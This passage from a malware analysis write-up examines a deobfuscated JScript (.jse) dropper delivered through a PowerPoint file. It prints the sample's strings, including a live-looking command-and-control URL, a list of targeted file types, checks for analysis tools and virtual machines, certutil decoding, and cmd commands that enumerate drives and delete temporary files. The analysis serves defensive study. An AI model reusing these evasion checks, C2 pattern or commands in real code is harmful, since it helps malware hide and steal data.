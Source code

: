 Running the deobfuscator, we get the following output:    
<pre>
transe9e45de07d328e8d46adf4357840be5eWScriptEnumeratorGetObjectActiveXObjectCreateObjectWScript.ShellScripting.FileSystemObjectADODB.StreamShell.ApplicationExpandEnvironmentStrings%TEMP%ExpandEnvironmentStrings%USERPROFILE%fromCharCodefromCharCodefloorrandomMsxml2.ServerXMLHTTPseter64.jseNameSpacehttps://185.159.82.38:45000/C/pollos.php?add=MZPOSTScriptFullName2000000-decode 4294967295Drives*.doc *.xls *.pdf *.rtf *.txt *.pub *.odt *.ods *.odp *.odm *.odc *.odb *.wps *.xlk *.ppt *.mdb *.accdb *.pst *.dwg *.dxf *.dxg *.wpd *.rtf *.wb2 *.mdf *.dbf *.psd *.pdd *.eps *.ai *.indd *.cdr img_*.jpg *.dng *.3fr *.arw *.srf *.sr2 *.bay *.crw *.cr2 *.dcr *.kdc *.erf *.mef *.mrw *.nef *.nrw *.orf *.raf *.raw *.rwl *.rw2 *.r3dsaymyname.txtPopupError: Cannot open illustration.ErrorOpenTextFileReadLineClosetesbblengthcharCodeAtindexOfAppDatawinmgmts:{impersonationLevel=impersonate}!.rootcimv2ExecQuerySelect * from Win32_ProcessExecQuerySelect * from Win32_OperatingSystematEnditemCaptionitemVersionmoveNextatEnditemExecMethod_GetOwnerName*ExecutablePath*Domain|UserfromCharCodefromCharCodemoveNextindexOfProcmonindexOfWiresharkindexOfTempiexplore.exeindexOfProcessHackerindexOfvmtoolsdindexOfVBoxServiceindexOfpythonindexOfProxifier.exeindexOfJohnson-PCindexOfImmunityDebugger.exeindexOflordPE.exeindexOfctfmon.exe*JOHN-PCindexOfBehaviorDumperindexOfanti-virus.EXEindexOfAgentSimulator.exeindexOfVzService.exeindexOfVmRemoteGuestActionScrew you guys, Im going home!!!!CreateTextFileWriteLineClosefuck it..floorrandom.exefloorrandom.gopsetOptionMSXML&floorrandom&uid=abs&out=&ver=opensetRequestHeadercache-controlprivatesendfromCharCodefromCharCodesendstatusresponseTextsubstringOpenTypeWriteresponseBodyPositionSaveToFileCloseCreateTextFileWriteLineCloseSleepShellExecutecertutil openFileExistsgetResponseHeaderyou_god_damn_rightCopyFileSleepFileExistsatEndmoveNextitemIsReadyDriveTypeDriveTypesubstringDriveLetterShellExecutecmd/U /Q /C cd /D DriveLetter: && dir /b/s/x >>%TEMP%\\openSleepSleepGetFileOpenAsTextStreamAtEndOfStreamReadLinesubstringindexOf.ShellExecutecmd/U /Q /C copy /Y  .jse && del /Q/F openCloseDeleteFileGetFileOpenAsTextStreamReadLinesubstringShellExecutecmdfromCharCodec start openExecProcessIDSleepShellExecutecmd/U /Q /C del /Q/F %TEMP%\*.exe && del /Q/F %TEMP%\*.gop && del /Q/F %TEMP%\*.txt && del /Q/F %TEMP%\*.log && del /Q/F %TEMP%\*.jseopenDeleteFileCloseSleep
</pre>

Even though the deobfuscated strings are concatenated to each other, we can get a few hints of what is going on:  
- Contacts the IP we previously found with a POST request.
- Enumerates some filetypes.
- Gets all the running processes via `Select * from Wind32_ProcessExec`. This explains the previous error we got from the `box-js` regarding `Trace: win32_process.execmethod_ not implemented!`
- After getting all the running processes, it tries to find if any of them are:   
  - ProcMon  
  - Wireshark
  - ProcessHacker
  - (more tool names usually used for malware analysis)  
  So the script tries to see if it is being monitored, and if it is, it exists (with some interesting comments to say the least...)


### Reversing the final exe [pollos] -To be continued...
The final file that will be dropped (named `pollos` from the cracked hash) can be found [here](https://www.hybrid-analysis.com/sample/9efc3aa23de09f1713a2e138760a42d0a14568c86cdbb5499d2adddbe197db57/5935aeaeaac2ed0e41bfe09c).  

TBC



**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=72Ztp7NNWqc">cybercdh: <i>Malicious Powerpoint and .jse behavioural and code analysis</i></a></li>
        <li> [2] <a href="https://www.virustotal.com/gui/file/796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921">VirusTotal: <i>order&prsn.ppsx</i></a></li>
        <li> [2] <a href="https://www.sentinelone.com/blog/zusy-powerpoint-malware-spreads-without-needing-macros/">“Zusy” PowerPoint Malware Spreads Without Needing Macros</i></a></li>
    </ul>
</blockquote>